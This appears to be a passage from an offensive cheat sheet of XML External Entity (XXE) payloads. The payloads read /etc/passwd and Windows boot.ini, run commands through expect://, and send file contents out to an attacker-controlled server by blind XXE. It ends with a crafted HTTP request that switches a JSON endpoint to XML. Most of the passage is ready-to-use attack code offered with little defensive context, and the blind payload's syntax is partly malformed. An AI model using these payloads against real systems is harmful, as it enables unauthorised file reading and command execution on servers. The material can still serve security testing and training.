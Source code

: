 With `php filter` the above payload looks like the below

```xml
<!DOCTYPE root [<!ENTITY payload SYSTEM 'php://filter/convert.base64-encode/resource=/etc/passwd'>]>  
<root>&payload;</root> 
```

Php filters are used in xxe payloads if the file you are trying to read returns empty resutls when you are sure that the location is correct. _**Executing system commands**_ \[1]

```xml
<!DOCTYPE test [ <!ELEMENT test ANY >  
<!ENTITY payload SYSTEM "expect://id" >]>
 <userInfo>  
 <firstName>motasem</firstName>  
 <lastName>&payload;</lastName>  
 </userInfo>
```

\[2]

```xml
<!DOCTYPE root [<!ENTITY payload SYSTEM "expect://id">]>  
<root>&payload;</root> 
```

_**Reading files on windows**_

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE testing [  
  <!ELEMENT testing ANY >
  <!ENTITY payload SYSTEM "file:///c:/boot.ini" >]><testing>&payload;</testing>
```

**XXE payload examples for Blind XXE** This payload will post the contents of /etc/passwd to your server.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE testing [
<!ELEMENT testing ANY >
<!ENTITY % payloadv1 SYSTEM "file:///etc/passwd" >
<!ENTITY payloadv2 SYSTEM "www.yoursite.com/?%payloadv1;">
]
>
<foo>&payloadv2;</foo>
```

**XXE against JSON** XXE attacks are possible against a web application that formats data in JSON. Candidates to this attack including web pages that respond with JSON data format to web requests. In order to exploit XXE in JSON, we need to play with the \[content-type] http header so instead of \[application/json] we make it \[application/xml] and we convert the JSON data in the request into XML. #Example POST request with XXE payload that reads \[/etc/passwd]

```
POST /test-page HTTP/1.1

Host: domain.com

Accept: application/json

Content-Type: application/xml

Content-Length: 288

<?xml version="1.0" encoding="UTF-8" ?>

<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

```